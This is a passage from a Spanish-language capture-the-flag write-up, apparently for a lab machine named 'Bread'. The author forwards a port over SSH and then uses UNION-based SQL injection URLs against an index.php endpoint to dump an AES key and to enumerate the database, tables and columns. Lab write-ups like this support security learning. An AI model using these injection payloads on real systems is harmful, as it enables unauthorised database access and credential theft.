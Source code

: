 Traigo el puerto a mi equipo aplicando un local port forwarding por SSH para trabajar mejor desde el navegador web y no tener que url-encodear a mano todas las querys

```null
ssh> -L 1234:127.0.0.1:1234
Forwarding port.
```

Aplico un ordenamiento de la primera columna, y obtengo un campo donde puedo dumpear datos

```null
view-source:http://localhost:1234/index.php?method=select&username=administrator'union select 1-- -&table=passwords

selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(1) "1"
  }
}
```
Miro que base de datos se está empleando

```null
view-source:http://localhost:1234/index.php?method=select&username=administrator%27union%20select%20database()--%20-&table=passwords
string(5) "bread"
```

Enumero todas las que hay

```null
view-source:http://localhost:1234/index.php?method=select&username=administrator%27union%20select%20group_concat(schema_name)%20from%20information_schema.schemata--%20-&table=passwords
string(24) "information_schema,bread"
```

Solo hay una, así que listo las tablas

```null
view-source:http://localhost:1234/index.php?method=select&username=administrator%27union%20select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22bread%22--%20-&table=passwords
string(9) "passwords"
```

Y las columnas

```null
view-source:http://localhost:1234/index.php?method=select&username=administrator%27union%20select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22bread%22%20and%20table_name=%22passwords%22--%20-&table=passwords
string(27) "id,account,password,aes_key"
```
